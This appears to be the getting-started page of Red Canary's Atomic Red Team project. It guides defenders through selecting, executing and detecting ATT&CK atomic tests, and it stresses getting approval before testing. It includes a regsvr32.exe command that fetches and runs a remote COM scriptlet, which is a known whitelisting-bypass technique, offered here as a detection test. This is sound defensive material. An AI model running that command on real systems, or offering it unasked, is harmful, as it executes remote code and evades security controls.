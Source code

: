 ```yaml
---
layout: default
---
```


# Getting Started Testing with Atomic Tests

<img style="float: right;" src="https://www.redcanary.com/wp-content/uploads/image2-5.png">

We suggest a phased approach to running a test and evaluating your results:

1. [Select a test](#select-a-test)
2. [Execute Test](#execute-test)
3. [Collect Evidence](#collect-evidence)
4. [Develop Detection](#develop-detection)
5. [Measure Progress](#measure-progress)

## Best Practices

* Be sure to get permission and necessary approval before conducting tests. Unauthorized testing is a bad decision
and can potentially be a resume-generating event.

* Set up a test machine that would be similar to the build in your environment. Be sure you have your collection/EDR
solution in place, and that the endpoint is checking in and active.

* Spend some time developing a test plan or scenario. This can take many forms. An example test plan could be to
execute all the Discovery phase items at once in a batch file, or run each phase one by one, validating coverage as you go.

## Select a test
Select one or more Atomic Tests that you plan to execute. A complete list, ATT&CK matrices, and platform-specific
matrices linking to Atomic Tests can be found here:

- [Complete list of Atomic Tests](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/index.md)
- [Atomic Tests per the ATT&CK Matrix](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/matrix.md)
- Windows [Tests](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/windows-index.md) and [Matrix](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/windows-matrix.md)
- macOS [Tests](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/macos-index.md) and [Matrix](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/macos-matrix.md)
- Linux [Tests](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/linux-index.md) and [Matrix](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/linux-matrix.md)

## Execute Test

In this example we will use Technique `T1117 "Regsvr32"` and Atomic Test `"Regsvr32 remote COM scriptlet execution"`. This particular
test is fairly easy to exercise since the tool is on all Windows workstations by default.

The details of this test, [which are located here](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1117/T1117.md#atomic-test-2---regsvr32-remote-com-scriptlet-execution),
describe how you can test your detection by simply running the below command:

```
regsvr32.exe /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1117/RegSvr32.sct scrobj.dll
```

## Collect Evidence

What does your security solution observe?
- You may see a file modification in the user’s profile.
- You may detect network connections made by regsvr32.exe to an external IP.
- There may be an entry in the proxy logs.
- You may observe the scrobj.dll loading on Windows.
- Or you might not observe any behavior on the endpoint or network.

This is why we test! We want to identify visibility gaps and determine where we need to make improvements.

![RC Timeline](https://www.redcanary.com/wp-content/uploads/image9-1.png)

![Cb example 1](https://www.redcanary.com/wp-content/uploads/image5-3.png)

![Cb Example 2](https://www.redcanary.com/wp-content/uploads/image7-2.png)

## Develop Detection

So you executed the test and none of your defenses fired – that’s why we test! Based on your observations
and detection capabilities, it is time to use what you have to try to detect this event in your environment.

![Unwind Data](https://www.redcanary.com/wp-content/uploads/image8-1.png)

Once the detection is built, it is time to validate that the detection is working and that it is appropriately
tuned. If you were to write your detection too broadly and “detect” every regsvr32.exe without any suppression,
you are going to be digging out from a mountain of false positives. But if you write it too narrow and it
only detects regsvr32.exe with the exact command line `/s /u /i` then all an attacker has to do is slightly
modify their command line to evade your detection.

## Measure Progress

One of the goals is to try to measure your coverage/capabilities against the ATT&CK Matrix and to identify where you may have gaps. Roberto Rodriguez ([@cyb3rWar0g](https://twitter.com/Cyb3rWard0g)) provided [this spreadsheet](https://github.com/Cyb3rWard0g/ThreatHunter-Playbook/tree/master/resources/metrics) and complementary [blog post](https://cyberwardog.blogspot.com/2017/07/how-hot-is-your-hunt-team.html) showcasing how to determine where you stand within your organization in relation the MITRE ATT&CK Matrix.

![HeatMap](https://www.redcanary.com/wp-content/uploads/image4-5.png)

![Measure](https://www.redcanary.com/wp-content/uploads/image6-2.png)
